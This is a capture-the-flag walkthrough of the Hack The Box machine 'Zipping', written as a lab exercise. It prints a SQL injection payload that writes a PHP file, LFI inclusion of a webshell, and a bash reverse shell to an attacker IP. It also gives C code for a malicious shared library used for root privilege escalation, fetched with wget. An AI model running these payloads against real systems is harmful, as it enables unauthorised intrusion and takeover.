# [Zipping](https://app.hackthebox.com/machines/Zipping)

```bash
nmap -p- --min-rate 10000 10.10.11.229 -Pn
```




After detection of open ports, let's do greater nmap scan for this ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.229 -Pn 
```




While I looking at port `80`, I can see `shop` web application here.




Now, I will inject `SQLI` payloads to `id` parameter. But here, injection of payloads redirects me to `main` page. For bypassing this I will add `new line` means `%0a` to `SQLI` payload and it works.




From `page` parameter, I guess there can be `LFI` or `RFI` vulnerabilities.


As we found `Union-based SQLI`, we can write code into any file by using `INTO OUTFILE` functionality of `SQL`.
```bash
%0A100'+union+select+"<?php+phpinfo();+?>",2,3,4,5,6,7,8+into+outfile+"/dev/shm/dr4ks.php";--+-1
```



Then we can browse this page via `LFI` vulnerability as below.
```bash
?product=/dev/shm/dr4ks
```




Now, let's add `php webshell` into here as below.




Let's browse our webshell to execute system commands.




Now, it's time to add `reverse shell` payload here.

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.14.18/1337 0>%261'
```




Hola, I got reverse shell from port `1337`.




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




user.txt




For `Privilege Escalation`, I just run `sudo -l` command to see privileges of this user.




While I try to run this binary, it asks me a password.




To find correct password, I guess that I need to look at this binary via `strings` command to find condition checker for this password.

```bash
strings /usr/bin/stock
```




I guess that password is `St0ckM4nager`.




After all enumeration on machine, I came back to this binary and run `strace` to see files related to this binary.

```bash
strace /usr/bin/stock
```




I see that before `Menu` is coming to screen, there's `.so` script whose name is `libcounter.so` on `/home/rektsu/.config` directory that needs to be loaded but it doesn't exist.


Let's generate malicious `.so` file which gives `root` shell.

For this, I need to write below `.c` script.
```c
#include <stdlib.h>
__attribute__ ((__constructor__))
void shell(void){
    system("/bin/bash");
}
```

Second, I need to compile this via `gcc`.
```bash
gcc -shared -o libcounter.so -fPIC script.c
```




Now, it's time to upload this file into target machine's  `/home/rektsu/.config` directory.

First, I will open http.server.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```




Now, we need to download this malicious compiled file into machine from http.server via `wget` command.
```bash
wget http://10.10.14.18:8080/libcounter.so
```




Now, let's run `stock` binary via `sudo`.


root.txt




